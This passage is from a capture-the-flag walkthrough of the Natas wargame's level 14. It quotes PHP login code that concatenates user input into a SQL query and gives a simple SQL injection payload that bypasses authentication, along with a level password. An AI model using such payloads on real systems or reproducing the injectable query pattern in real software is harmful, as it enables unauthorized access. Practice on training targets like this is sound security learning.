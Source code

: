 I can now access the file I uploaded to get the password for the next level.

```
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

## Level 14

User: Natas14

Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

Looking at the source code, this appears to be a very simple SQL challenge. We can see the query being run as well as how our input interacts with it:

```
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?> 
```

Specifically, the line:

```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

We can use a very simple SQL injection to bypass this. We know that the username ``natas15`` exists because that is what the next level holds, so we can use a basic SQL injection in the password field. 

```
" or 1=1#
```

With this injection, our query will be 

```
SELECT * from users where username=natas15 and password="" or 1=1#;
```

